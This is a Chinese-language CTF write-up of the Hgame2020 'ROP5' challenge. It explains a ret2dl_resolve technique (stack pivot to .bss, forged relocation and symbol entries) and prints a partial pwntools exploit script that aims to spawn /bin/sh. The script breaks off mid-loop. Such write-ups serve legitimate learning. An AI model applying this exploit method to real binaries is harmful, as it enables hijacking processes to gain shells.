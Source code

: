 以[Hgame2020 week4的ROP5](https://pan.baidu.com/s/1lt9BZz7uzdpK5xY8c3pT0g)为例

提取码: c6g2

例行检查

![img](https://cdn.nlark.com/yuque/0/2020/jpeg/1100684/1584500339941-f9a9a5bc-b507-4a68-86d6-63958f4dec33.jpeg)

ida打开

![img](https://cdn.nlark.com/yuque/0/2020/jpeg/1100684/1584500339929-481e8599-9de6-4905-9d00-132968dca9c0.jpeg?x-oss-process=image/resize,w_1500)

关闭了标准输出和标准错误，不能泄漏libc，且存在一处溢出

利用ret2dl_resolve

大致思路先进行栈迁移，让esp指向bss段，然后在bss段构造`index_offset`使其指向我们构造的`fake_reloc`，然后让返回地址直接指向PLT0,再构造特定的`r_info`让程序找到我们构造的`fake_sym`，从而控制`st_name`

需要注意的是，由于我们一般把这个构造的`.dynsym`表项写在`.bss`，所以fake符号表的偏移（`reloc->r_info`的前三个字节是符号表的偏移）太大，vernum这个数组就有可能越界，ndx可能为任何值，version处可能出现错误导致程序终止。

![img](https://cdn.nlark.com/yuque/0/2020/jpeg/1100684/1584500340017-72b2ed1a-6ca3-4504-9a0b-0a444d47e6a5.jpeg)

要让version为NULL，可以让ndx为0

PKFXXXX：“运气好的话，即使偏移很大，说不定version也能为NULL  运气游戏23333”

下面是我参考了参考资料里师傅们的脚本写的辣鸡脚本

```
#!/usr/bin/env python2
# -*- coding: utf-8 -*-
from pwn import *

elf = ELF('ROP5')
offset = 72
read_plt = elf.plt['read']

ppp_ret = 0x080485d9                # ROPgadget --binary ROP5 --only "pop|ret" #esi edi ebp
pop_ebp_ret = 0x080485db 
leave_ret = 0x08048458              # ROPgadget --binary ROP5 --only "leave|ret"

cmd = "/bin/sh"
plt_0 = 0x08048380                  # objdump -d -j .plt ROP5
rel_plt = 0x08048330                # objdump -s -j .rel.plt ROP5

stack_size = 0x200
bss_addr = elf.bss() 
base_stage = bss_addr + stack_size

puts_got = elf.got['puts'] 

dynsym = 0x080481d8                 #objdump -d -j .dynsym ROP5
dynstr = 0x08048278                 #objdump -d -j .dynstr ROP5

#################################################
index_offset = (base_stage + 28) - rel_plt
fake_sym_addr = base_stage + 36
align = 0x10 - ((fake_sym_addr - dynsym) & 0xf)
fake_sym_addr = fake_sym_addr + align
index_dynsym = (fake_sym_addr - dynsym) / 0x10
#################################################

versym = elf.dynamic_value_by_tag("DT_VERSYM")

while True:                                                                 #通过改变base_stage的方式来调整偏移，让ndx为0
```